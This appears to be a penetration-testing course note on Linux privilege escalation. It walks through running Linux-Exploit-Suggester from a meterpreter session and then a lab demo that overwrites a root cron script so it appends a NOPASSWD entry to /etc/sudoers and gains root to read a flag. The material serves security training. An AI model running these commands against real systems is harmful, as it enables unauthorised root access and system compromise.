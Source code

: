 # Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilites in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
- Privesc on Linux systems will typically follow the following methodology:
  - Identifying kernel vulnerabilities
  - Downloading, compiling and transferring kernel exploits onto the target system.

## Tools & Environment
- Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

## Demo: Linux Kernel Exploits

After we obtained a meterpreter session, we enumerate info:

`sysinfo`

`getuid`

www-data is a service account which is often used on linux system which host a webserver.
`shell`

`/bin/bash -i`

`cat /etc/passwd`

`sudo apt-get update`

We use the Linux Exploit Suggester:

meterpreter: `CD /TMP`

meterpreter: `ls`

meterpreter: `upload ~/Desktop/Linux-Enum/les.sh`

meterpreter: `shell`

meterpreter: `ls`

meterpreter: `chmod +x les.sh`

meterpeter: `ls -alps`

meterpeter: `./les.sh`

Gives us Exploits and OS information. We download the exploit from the website. Navigate to the Exploit download.

# Exploiting misconfigured Cron Jobs

## Understanding Cron Jobs

    Cron: A time-based service in Linux used to schedule and automate tasks.
    Cron Job: A task scheduled to run via Cron, such as backups or system upgrades.
    Crontab File: The configuration file where Cron jobs are stored.

## Privilege Escalation Using Cron Jobs

    Cron Jobs as Root: If misconfigured, Cron jobs running as "root" can be exploited for root access.

## Demo: Using Cronjob

  `whoami`
  Displays the current user’s username.

  `groups student`
  Shows the groups that the "student" user belongs to.

  `cat /etc/passwd`
  Displays the content of the /etc/passwd file, revealing user account information.

  `crontab -l`
  Lists the Cron jobs scheduled for the current user.

  `ls -al`
  Lists all files and directories in the current directory with detailed information.

  `cat message`
  Displays the content of the "message" file.

  `pwd`
  Prints the current working directory.

  `cd /`
  Changes the directory to the root (/) of the filesystem.

  `grep -rnw /usr -e "/home/student/message"`
  Recursively searches for the string "/home/student/message" in files under /usr.

  `ls -al /tmp`
  Lists all files in the /tmp directory with detailed information.

  `cat /tmp/message`
  Displays the content of the "message" file in the /tmp directory.

  `ls -al /usr/local/share/copy.sh`
  Lists detailed information about the copy.sh script.

  `cat /usr/local/share/copy.sh`
  Displays the content of the copy.sh script.

  `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
  Creates or modifies the copy.sh script to add a command that gives the "student" user root privileges.

  `sudo -l`
  Lists the commands that the current user can run with sudo.

  `sudo su`
  Switches to the root user if allowed by sudo.

  `whoami`
  Confirms the current user, which should now be root.

  `cd /root`
  Changes the directory to the root user's home directory.

  `ls`
  Lists files in the current directory.

  `cat flag`
  Displays the content of the "flag" file.

  `crontab -l`
  Re-checks the scheduled Cron jobs to verify any changes.
